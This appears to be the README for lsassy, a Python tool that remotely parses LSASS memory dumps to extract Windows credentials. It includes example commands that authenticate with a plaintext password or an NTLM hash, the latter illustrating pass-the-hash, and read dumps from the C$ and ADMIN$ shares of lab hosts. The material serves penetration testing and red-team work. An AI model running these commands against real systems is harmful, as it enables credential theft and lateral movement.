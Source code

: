 # lsassy

[![PyPI version](https://badge.fury.io/py/lsassy.svg)](https://badge.fury.io/py/lsassy)

Python library to remotely parse lsass dump.

# Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

# Basic Usage

```
lsassy [<domain>/]<user>[:<password>]@<target>:/shareName/path/to/lsass.dmp
```

`-h` for all options


# Examples

```
lsassy ADSEC.LOCAL/jsnow:Winter_is_coming_\!@dc01.adsec.local:/C$/Windows/Temp/lsass.dmp

lsassy Administrateur:952c28bd2fd728898411b301475009b7@desktop01.adsec.local:/ADMIN$/lsass.dmp
```


# Installing

## From pip

```
pip3 install lsassy
```

## From sources

```
python3 setup.py install
```
